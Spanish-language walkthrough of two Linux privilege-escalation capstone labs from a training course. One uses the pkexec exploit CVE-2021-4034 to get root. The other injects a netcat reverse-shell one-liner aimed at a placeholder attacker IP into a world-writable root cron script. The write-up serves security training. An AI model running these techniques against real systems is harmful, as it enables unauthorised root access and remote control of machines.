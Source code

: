 # Walk: Capstones{1,2,3,4} Linux Privilege Escalation - Exploiting Kernel
       
       ## Fecha: 14/03/2025
       ## Host: Linux
       
       ## Objetivo
       1. **Capstone Lab**: Connect to the VM 3 with the provided credentials and use an appropriate privilege escalation technique
       to gain a root shell and read the flag.
       2. **Capstone Lab**: On the Module Exercise VM 4, use another appropriate privilege escalation technique to gain access to root
       and read the flag. Take a closer look at file permissions.
       3. 
       
       ## Herramientas
       1. scp
       2. gcc
       3. searchsploit
       ## Procedimiento y comandos 
       - ### Capstone Lab -1:
       ---
       #### Paso 1: Enumeramos 
       1. Version del kernel: ``` joe@ubuntu-privesc:~$ cat /etc/issue Ubuntu 16.04.4 LTS \n \l joe@ubuntu-privesc:~$ uname -r
       4.4.0-116-generic joe@ubuntu-privesc:~$ arch x86_64 ```
       2. 📌  Revisar Cron Jobs: ``` joe@ubuntu-privesc:~$ crontab -l no crontab for joe ```
       > No hay tareas programadas con permisos elevados que podamos explotar.
       3. 📌 Buscar archivos SUID
       >Los archivos con el **bit SUID activo** permiten que cualquier usuario los ejecute con los permisos de su propietario (en este
       caso, `root`)
       - `find / -perm -4000 -type f 2>/dev/null`
       - `find / -perm -u=s -type f 2>/dev/null` (opcional) ``` joe@ubuntu-privesc:~$ find / -perm -4000 -type f 2>/dev/null
       /usr/lib/snapd/snap-confine
       /usr/lib/policykit-1/polkit-agent-helper-1
       /usr/lib/eject/dmcrypt-get-device
       /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
       /usr/lib/openssh/ssh-keysign
       /usr/lib/dbus-1.0/dbus-daemon-launch-helper /usr/bin/sudo
       /usr/bin/newuidmap /usr/bin/chsh /usr/bin/newgrp /usr/bin/gpasswd
       /usr/bin/passwd /usr/bin/newgidmap /usr/bin/chfn /usr/bin/at
       /usr/bin/pkexec /bin/su /bin/fusermount /bin/ping /bin/ntfs-3g
       /bin/mount /bin/umount /bin/ping6 ```
       > **En este caso, revisamos manualmente `pkexec` y `snap-confine`:** ``` joe@ubuntu-privesc:~$ ls -la
       /usr/bin/pkexec
       -rwsr-xr-x 1 root root 23376 Jan 17  2016 /usr/bin/pkexec joe@ubuntu-privesc:~$ ls -la /usr/lib/snapd/snap-confine
       -rwsr-sr-x 1 root root 85832 Nov 30  2017 /usr/lib/snapd/snap-confine ```
       >-   **`pkexec` tiene el bit SUID activo y es de 2016** (posible vulnerabilidad).
       >-   **`snap-confine` también tiene SUID**, pero primero analizamos `pkexec` por ser más conocido.
       #### Paso 2: Busqueda del exploit y explotacion
       > Ningun exploit de los encontrados con searchsploit dio resultados recurrimos a github y encontramos este:
       - [Gihub - exploit - CVE-2021-4034](https://github.com/arthepsy/CVE-2021-4034)
       1. Copiamos el exploit en la maquina victima con _scp_
       - `scp joe@192.168.203.212:` Colocamos las credenciales de joe
       2. Compilamos en la maquina el exploit:
       - `gcc exploit-file.c -o exploit-file`
       3. Ejecutamos el exlpoit: `./exploit-file`
       #### Paso3: Obtenemos el flag ```
       # id uid=0(root) gid=0(root) groups=0(root),1001(joe)
       # cd /root
       # cat flag.txt OS{761e***************************8c3e9} ```
       - ### Capstone Lab -2:
       ---
       #### Paso 1: Enumeracion
       -   **Enumerar tareas y cron jobs**:
           
           -   Verificar si hay cron jobs o tareas programadas que se ejecutan periódicamente en el sistema.
           -   Comando: `ls -lah /etc/cron*`
           -   Aquí, encontramos el archivo `/etc/cron.hourly/archiver`, que ejecuta el script `/var/archives/archive.sh`. ```
           ┌──(student㉿16922cd238b5)-[~] └─$ ls -lah /etc/cron*
       -rw-r--r-- 1 root root 1.1K Feb 22  2021 /etc/crontab
       
       /etc/cron.d: total 20K drwxr-xr-x 1 root root 4.0K Dec  7  2021 .
       drwxr-xr-x 1 root root 4.0K Mar 15 14:51 ..
       -rw-r--r-- 1 root root  102 Feb 22  2021 .placeholder
       -rw-r--r-- 1 root root  201 Mar 20  2020 e2scrub_all
       
       /etc/cron.daily: total 36K drwxr-xr-x 1 root root 4.0K Dec  7 
       2021 . drwxr-xr-x 1 root root 4.0K Mar 15 14:51 ..
       -rw-r--r-- 1 root root  102 Feb 22  2021 .placeholder
       -rwxr-xr-x 1 root root 1.5K Oct 21  2020 apt-compat
       -rwxr-xr-x 1 root root 1.1K Sep  3  2020 dpkg
       -rwxr-xr-x 1 root root 4.7K May  4  2021 exim4-base
       -rwxr-xr-x 1 root root 1.1K Jul  5  2020 man-db
       
       /etc/cron.hourly: total 20K drwxr-xr-x 1 root root 4.0K Dec  7 
       2021 . drwxr-xr-x 1 root root 4.0K Mar 15 14:51 ..
       -rw-r--r-- 1 root root  102 Feb 22  2021 .placeholder
       -rw-r--r-- 1 root root  139 Dec  7  2021 archiver
       
       /etc/cron.monthly: total 16K drwxr-xr-x 2 root root 4.0K Dec  7 
       2021 . drwxr-xr-x 1 root root 4.0K Mar 15 14:51 ..
       -rw-r--r-- 1 root root  102 Feb 22  2021 .placeholder
       
       /etc/cron.weekly: total 20K drwxr-xr-x 1 root root 4.0K Dec  7 
       2021 . drwxr-xr-x 1 root root 4.0K Mar 15 14:51 ..
       -rw-r--r-- 1 root root  102 Feb 22  2021 .placeholder
       -rwxr-xr-x 1 root root  813 Jul  5  2020 man-db
       
       ```
       -   **Explorar el script de cron**:
           
           -   Examina el contenido del script `archive.sh` en `/var/archives/archive.sh` para entender lo que hace.
           -   El script parecía tener una tarea que copia los archivos del usuario.
           -   Comando: `cat /var/archives/archive.sh` ```
       #!/bin/bash
       
       TIMESTAMP=$(date +"%T") echo "$TIMESTAMP running the archiver"
       #cp -rf /home/kali/ /var/backups/kali/ cp -rf /home/student/ /var/backups/student/ ```
       -   **Comprobar permisos del script**:
           
           -   Verifica si tienes permisos para ejecutar el script y si puedes modificarlo.
           -   El script tenía permisos `777`, lo que significa que puedes escribir y modificar el archivo.
           -   Comando: `ls -la /var/archives/archive.sh`
           `-rwxrwxrwx 1 root root 190 Mar 15 15:32 /var/archives/archive.sh`
       #### Paso 2: Iniciamos el ataque de escalada de privilegios y obtenemos el flag
       1.   **Modificar el script para obtener un shell**:
           
           -   Modificamos el script para inyectar un reverse shell que te permita obtener acceso remoto al sistema con privilegios de
       root.
           -   La línea que usaste para esto fue: `sudo rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc {IP_ATACANTE}
       1234 >/tmp/f`
       
           -   Este comando crea un named pipe y establece una conexión de red a mi máquina atacante en el puerto `1234`.
       2.   **Escuchar en tu máquina atacante**:
           
           -   En mi máquina atacante, uso `nc` para escuchar en el puerto `1234` y obtener la shell.
           -   Comando: `nc -nlvp 1234`
       
       3.   **Ejecutar el script manualmente (si es necesario)**:
           
           -   Si necesitas ejecutar el script manualmente antes de que se ejecute automáticamente, puedes hacerlo directamente.
           -   Comando: `/var/archives/archive.sh`
       4.  **Obtener el shell**:
           
           -   Una vez que el script se ejecute, el reverse shell se conectará a tu máquina atacante y tendrás acceso al sistema como
       root a través de `nc`.
       5.   **Revisar la shell**:
           
           -   Al obtener acceso, podrás ejecutar comandos como `whoami` para confirmar que tienes privilegios de root.
           -   Comando: `whoami`
       6.  **Acceder al flag**:
           
           -   Ahora que tienes acceso root, puedes acceder al archivo del flag, normalmente ubicado en una ruta como `/root/flag.txt`.
